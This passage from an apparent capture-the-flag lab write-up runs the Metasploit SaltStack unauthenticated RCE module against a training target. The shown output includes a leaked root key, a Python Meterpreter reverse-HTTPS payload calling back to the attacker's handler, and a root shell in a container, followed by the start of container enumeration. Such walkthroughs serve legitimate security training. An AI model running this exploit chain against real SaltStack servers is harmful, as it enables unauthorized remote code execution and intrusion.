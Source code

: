 ```ruby
```

With everything set, we can simply run the exploit.

```ruby
msf6 exploit(linux/misc/saltstack_salt_unauth_rce) > run

[*] Started HTTPS reverse handler on https://10.10.14.15:8443
[*] 172.17.0.2:4506 - Using auxiliary/gather/saltstack_salt_root_key as check
[*] 172.17.0.2:4506 - Connecting to ZeroMQ service at 172.17.0.2:4506
[*] 172.17.0.2:4506 - Negotiating signature
[*] 172.17.0.2:4506 - Negotiating version
[*] 172.17.0.2:4506 - Negotiating NULL security mechanism
[*] 172.17.0.2:4506 - Sending READY command of type REQ
[*] 172.17.0.2:4506 - Yeeting _prep_auth_info() at 172.17.0.2:4506
[+] 172.17.0.2:4506 - Root key: iUIUPNHzV5qAZVVID45sQQuB12OlHFtvNvPfHLYEIHwP/XO5Wimc+nb0I8Z7X7QRXLd3u4eMzrs=
[*] 172.17.0.2:4506 - Connecting to ZeroMQ service at 172.17.0.2:4506
[*] 172.17.0.2:4506 - Negotiating signature
[*] 172.17.0.2:4506 - Negotiating version
[*] 172.17.0.2:4506 - Negotiating NULL security mechanism
[*] 172.17.0.2:4506 - Sending READY command of type REQ
[*] 172.17.0.2:4506 - Executing Python payload on the master: python/meterpreter/reverse_https
[*] 172.17.0.2:4506 - Yeeting runner() at 172.17.0.2:4506
[*] https://10.10.14.15:8443 handling request from 10.10.10.205; (UUID: dktkoizy) Staging python payload (39508 bytes) ...
[*] Meterpreter session 1 opened (10.10.14.15:8443 -> 10.10.10.205:59982)

meterpreter >
```

We can now use the meterpreter command `shell` to get a shell on the system.

```bash
meterpreter > shell
Process 3664 created.
Channel 1 created.
/bin/sh: 0: can\'t access tty; job control turned off
$ id && hostname
uid=0(root) gid=0(root) groups=0(root)
2d24bf61767c
```

We get a shell on the container (hostname: 2d24bf61767c) as root. Now let us enumerate the container to find a way to escape the container and get a root shell on the host-system.

### Enumerating the docker-container

Let us first checkout the home-directory of the root user.

```bash
root@2d24bf61767c:~# ls -alh
total 28K
drwx------ 1 root root 4.0K Jun 30  2020 .
drwxr-xr-x 1 root root 4.0K Jun 30  2020 ..
-rw------- 1 root root 1.4K Jun 30  2020 .bash_history
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxr-xr-x 2 root root 4.0K May  3  2020 .ssh
-rw-r--r-- 1 root root  137 Jun 30  2020 todo.txt
```
